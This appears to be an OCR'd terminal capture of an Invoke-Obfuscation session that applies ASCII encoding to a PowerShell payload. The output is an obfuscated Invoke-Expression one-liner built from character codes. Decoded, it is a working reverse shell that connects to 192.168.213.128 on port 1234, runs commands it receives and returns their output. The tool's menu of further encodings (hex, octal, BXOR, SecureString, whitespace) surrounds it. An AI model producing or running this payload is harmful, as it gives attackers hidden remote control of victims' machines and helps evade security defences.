 
```
Invoke-Obfuscation> ENCODING


Choose one of the below Encoding options to APPLY to current payload:

[*] ENCODING\1          Encode entire command as ASCII
[*] ENCODING\2          Encode entire command as Hex
[*] ENCODING\3          Encode entire command as Octal
[*] ENCODING\4          Encode entire command as Binary
[*] ENCODING\5          Encrypt entire command as SecureString (AES)
[*] ENCODING\6          Encode entire command as BXOR
[*] ENCODING\7          Encode entire command as Special Characters
[*] ENCODING\8          Encode entire command as Whitespace
```

```
Invoke-Obfuscation\Encoding> 1

Executed:
  CLI:  Encoding\1
  FULL: Out-EncodedAsciiCommand -ScriptBlock $ScriptBlock -PassThru                                                                                                                                                                        
                                                                                                                                                                                                                                           
Result:
iNvOke-EXpREsSION ( "$(sEt-vaRIABLe  'Ofs' '' )" + [sTriNg]( '36b99X108;105b101,110y116,32n61y32u78W101X119}45n79X98;106u101,99b116X32u83b121X115X116}101n109b46b78y101X116q46y83u111n99y107}101;116,115W46n84y67;80q67n108X105u101;110W116W40b39;49n57;50}46;49,54n56}46b50}49;51,46,49q50}56X39}44W49}50}51X52W41W59,36n115X116u114;101}97W109,32u61n32;36n99n108b105y101,110b116X46;71q101y116}83u116;114W101b97X109q40u41W59}91,98q121y116X101;91;93;93,36b98;121q116y101}115u32n61u32u48b46y46b54,53;53,51;53W124y37W123}48b125y59}119n104b105W108,101b40q40q36;105X32y61u32u36;115b116b114q101;97W109u46X82W101n97q100X40q36b98b121}116q101X115b44u32u48W44X32X36n98,121}116}101b115}46y76b101,110y103y116n104u41X41u32,45y110b101q32X48,41y123;59q36n100y97q116;97q32X61b32}40,78n101y119n45W79n98n106;101,99y116u32q45y84}121X112;101,78;97;109X101X32W83;121X115n116W101u109;46W84y101}120n116}46}65u83n67n73n73y69;110X99W111q100;105y110W103W41q46y71,101n116X83n116;114}105,110W103n40W36X98q121q116q101u115u44q48X44q32W36u105X41;59u36;115b101X110W100;98,97y99W107u32y61q32q40W105W101b120u32}36}100b97u116W97q32W50y62X38;49b32}124y32W79W117u116W45q83n116q114X105n110;103}32}41q59q36,115,101X110n100b98b97b99,107,50y32W61}32W36}115X101,110;100b98q97y99b107,32y43;32}39W80y83;32;39X32q43X32X40n112y119W100}41W46X80}97q116}104X32;43X32y39X62q32y39b59W36X115b101q110u100}98b121u116q101b32;61y32q40b91b116X101n120y116,46;101}110n99b111n100}105u110q103,93}58;58u65;83,67b73q73y41b46,71q101X116n66W121n116n101;115u40,36u115,101,110b100;98X97y99W107}50u41n59y36,115y116y114n101u97y109,46b87}114}105b116X101;40}36u115}101b110u100W98X121W116,101q44b48n44X36n115y101y110b100}98}121W116X101W46,76X101u110u103}116,104u41n59y36y115u116W114n101u97,109y46u70n108n117y115q104;40,41y125,59u36;99u108}105}101y110;116}46,67u108u111X115;101,40}41,10'-sPlIT 'n'-SpLIT'q' -sPLIt '}' -sPlIt'b' -SPlit'y'-SpLit'u' -SpLiT 'W'-SPLit'X'-sPLit ',' -spLIt ';'| FOReach-obJeCt {([inT] $_-AS [ChAR]) } )+" $( sET-iTeM 'vaRiable:OFS'  ' ') " )                                                                                                                                
                                                                                                                                                                                                                                           

Choose one of the below Encoding options to APPLY to current payload:

[*] ENCODING\1          Encode entire command as ASCII
[*] ENCODING\2          Encode entire command as Hex
[*] ENCODING\3          Encode entire command as Octal
[*] ENCODING\4          Encode entire command as Binary
[*] ENCODING\5          Encrypt entire command as SecureString (AES)
[*] ENCODING\6          Encode entire command as BXOR
[*] ENCODING\7          Encode entire command as Special Characters
[*] ENCODING\8          Encode entire command as Whitespace


Invoke-Obfuscation\Encoding> 
```
